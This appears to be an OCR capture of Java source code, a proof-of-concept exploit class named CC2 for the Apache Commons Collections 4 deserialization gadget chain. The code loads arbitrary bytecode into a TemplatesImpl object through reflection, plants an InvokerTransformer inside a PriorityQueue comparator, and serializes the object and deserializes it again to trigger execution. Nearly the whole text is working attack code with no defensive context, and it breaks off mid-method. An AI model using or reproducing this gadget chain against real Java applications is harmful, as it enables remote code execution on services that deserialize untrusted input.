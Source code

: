 ```bash
package EXP;


import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import org.apache.commons.collections4.comparators.TransformingComparator;
import org.apache.commons.collections4.functors.ConstantTransformer;
import org.apache.commons.collections4.functors.*;


import java.io.*;
import java.lang.reflect.Field;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.PriorityQueue;

public class CC2 {
    public static void main(String[] args) throws Exception{

        TemplatesImpl Templates = new TemplatesImpl();
        Class tc = Templates.getClass();
        Field nameField = tc.getDeclaredField("_name");
        nameField.setAccessible(true);
        nameField.set(Templates,"aaa");


        Field bytecodeField = tc.getDeclaredField("_bytecodes");
        bytecodeField.setAccessible(true);

        byte[] code = Files.readAllBytes(Paths.get("D://Tomcat/CC/target/classes/EXP/Demo.class"));
        byte[][] codes = {code};
        bytecodeField.set(Templates,codes);


        InvokerTransformer<Object,Object> invokerTransformer = new InvokerTransformer<>("newTransformer",new Class[]{},new Object[]{});
        TransformingComparator transformingComparator = new TransformingComparator(new ConstantTransformer<>(1));

        PriorityQueue priorityQueue = new PriorityQueue<>(transformingComparator);
        //size长度要加2并将Temlates传入
        priorityQueue.add(Templates);
        priorityQueue.add(Templates);

        Class c = transformingComparator.getClass();
        Field transformedField = c.getDeclaredField("transformer");
        transformedField.setAccessible(true);
        transformedField.set(transformingComparator,invokerTransformer);


        serialize(priorityQueue);
        unserialize("ser.bin");
    }




    public static void serialize(Object obj) throws IOException {
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser.bin"));
        oos.writeObject(obj);
    }

    public static Object unserialize(String Filename) throws IOException,ClassNotFoundException{
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
```